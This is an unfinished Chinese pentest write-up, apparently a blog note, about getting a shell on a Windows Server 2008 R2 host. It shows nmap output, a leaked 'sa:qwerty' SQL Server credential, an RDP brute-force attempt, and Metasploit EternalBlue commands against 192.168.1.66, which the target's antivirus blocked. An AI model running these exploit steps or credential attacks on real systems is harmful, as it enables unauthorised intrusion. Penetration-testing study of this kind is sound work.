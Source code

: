 ```yaml
---
tags: [SQL Server,网络安全]
date: 2022-10-4 13:45
title: SQL Server 另类 getshell
---
```


## 待填坑

## 目标环境

Windows Server 2008 R2，安装了 360安全卫士，扫描结果大致如下：

```
80/tcp    open  http               Microsoft IIS httpd 7.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Enterprise 7600 microsoft-ds
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.1600.00; RTM
3389/tcp  open  ssl/ms-wbt-server?
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

其中运行于 1433 端口的 SQL Server 服务已经得到了账号与密码，即`sa:qwerty`

其中运行于 80 端口的 IIS 服务访问任何页面都是 404

## 尝试

### 远程桌面弱密码

用了[这个软件](https://github.com/7kbstorm/7kbscan-RDP-Sniper)跑，但其实根本没用——被 360 拦了

### 永恒之蓝

445 开着，那直接跑个永恒之蓝试试：

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.1.66
exploit
```

非常成功的——被拦了。

```
[+] 192.168.1.66:445 - The target is vulnerable.
[-] 192.168.1.66:445 - Errno::ECONNRESET: An existing connection was forcibly closed by the remote host.
```
